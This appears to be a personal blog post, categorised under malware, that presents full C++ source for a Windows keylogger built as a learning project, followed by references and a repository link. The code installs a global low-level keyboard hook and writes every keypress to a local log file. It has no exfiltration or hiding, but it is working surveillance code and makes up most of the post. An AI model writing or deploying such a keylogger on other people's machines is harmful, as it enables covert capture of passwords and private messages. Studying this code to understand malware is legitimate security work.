 ```yaml
---
title: C++ Keylogger
date: 2023-02-02 00:00:00 +/-TTTT
categories: [Malware]
tags: [keylogger, c++]     # TAG names should always be lowercase
---
```


This post is dedicated to a personal project, in which I tried to understand and recreate the behavior of a software Keylogger made with C++ and running on Windows.

## Source code

```c++
#include <iostream>
#include <fstream>
#include <windows.h>

#define FILEPATH "log.txt"

std::string ConvertVkCode(DWORD vkCode) {
    std::string convertedKeyInput;

    switch (vkCode) {
        case VK_ADD : convertedKeyInput = "Numpad +"; break;
        case VK_ATTN : convertedKeyInput = "Attn"; break;
        // ...
        case VK_XBUTTON1 : convertedKeyInput = "X Button 1 **"; break;
        case VK_XBUTTON2 : convertedKeyInput = "X Button 2 **"; break;
        default:
            char keyChar = (char)vkCode;
            std::string temp(1, keyChar);
            convertedKeyInput = temp;
            break;
    }
    return convertedKeyInput;
}

LRESULT CALLBACK LowLevelKeyboardProc(int nCode, WPARAM wParam, LPARAM lParam)
{
    BOOL fEatKeystroke = FALSE;

    if (nCode == HC_ACTION)
    {
        PKBDLLHOOKSTRUCT press = (PKBDLLHOOKSTRUCT)lParam;
        DWORD vkCode = press->vkCode; // Get the virtual keycode
        if ((wParam == WM_KEYDOWN) || (wParam == WM_SYSKEYDOWN)) // Keydown
        {
            std::ofstream file(FILEPATH, std::ios_base::app);
            if (file.is_open())
            {
                file << ConvertVkCode(vkCode) << "\n";
                file.close();
            }
            else
            {
                std::cout << "Unable to open the log file.\n";
            }
            std::cout << ConvertVkCode(vkCode) << "\n";
        }
    }
    return(fEatKeystroke ? 1 : CallNextHookEx(NULL, nCode, wParam, lParam));
}

int main()
{
    // dwThreadId is set to 0 to make a global injection
    HHOOK hookLowLevelKeyboard = SetWindowsHookEx(
        WH_KEYBOARD_LL,
        LowLevelKeyboardProc,
        0,
        0
    );
    MSG msg;
    while (!GetMessage(&msg, NULL, NULL, NULL))
    {
        // This while loop keeps the hook
        TranslateMessage(&msg);
        DispatchMessage(&msg);
    }
    UnhookWindowsHookEx(hookLowLevelKeyboard);

    return 0;
}
```

## References

- [Keystroke logging](https://en.wikipedia.org/wiki/Keystroke_logging)
- [Hooking](https://en.wikipedia.org/wiki/Hooking)
- [Global injection and Hooking in Windows](https://m417z.com/Implementing-Global-Injection-and-Hooking-in-Windows)
- [Global Hook Sample](https://github.com/katahiromz/GlobalHookSample)
- [SetWindowsHookEx](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-setwindowshookexw)
- [LowLevelKeyboardProc](https://learn.microsoft.com/en-us/windows/win32/winmsg/lowlevelkeyboardproc)

## Repository

[https://github.com/dig2root/Keylogger](https://github.com/dig2root/Keylogger)